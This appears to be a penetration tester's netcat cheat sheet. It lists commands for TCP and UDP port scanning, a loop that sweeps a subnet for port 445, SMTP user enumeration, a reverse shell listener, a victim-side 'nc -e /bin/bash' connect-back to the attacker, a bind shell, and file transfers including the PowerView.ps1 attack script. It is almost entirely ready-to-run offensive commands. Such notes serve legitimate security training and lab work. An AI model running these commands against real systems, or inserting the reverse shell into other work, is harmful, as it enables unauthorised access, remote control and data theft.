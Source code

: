 > Netcat is a simple Unix utility which reads and writes data across network connections using TCP or UDP protocol.
> Netcat is **not** a port scanner, but it can be used as such in a rudimentary way to showcase how a typical port scanner works.

# Binary Location

Copy to directory
```
cp /usr/share/windows-resources/binaries/nc.exe .
```

# Port Scanning

#Port_Scanning

Perform a TCP port scan
```bash
nc -nvv -w 1 -z 192.168.69.123 3388-3390
```

Bash loop with `nc` to sweep for port 445
```bash
for i in $(seq 1 254); do nc -zv -w 1 192.168.69.$i 445; done
```

Perform a UDP port scan
```bash
nc -nv -u -z -w 1 192.168.69.123 120-123
```

#SMTP_Enumeration

Validate SMTP users
```bash
nc -nv 192.168.69.123 25
```

# Shell Access

#Shell_Access #Remote_Access

Listener to catch reverse shell on port 4444
```bash
nc -nvlp 4444
```

Victim to connect to our reverse shell listener
```bash
nc 192.168.69.123 4444 -e /bin/bash
```

Bind shell
```bash
nc 192.168.69.123 4444
```

# File Transfer

#File_Sharing 

Receive file
```bash
nc -l -p 1234 > system.txt 
```
```cmd
.\nc.exe -l -p 9999 > PowerView.ps1
```

Send file
```bash
nc 192.168.69.123 1234 < system.file
```
```cmd
.\nc.exe -w 3 10.10.69.123 9999 < PowerView.ps1
```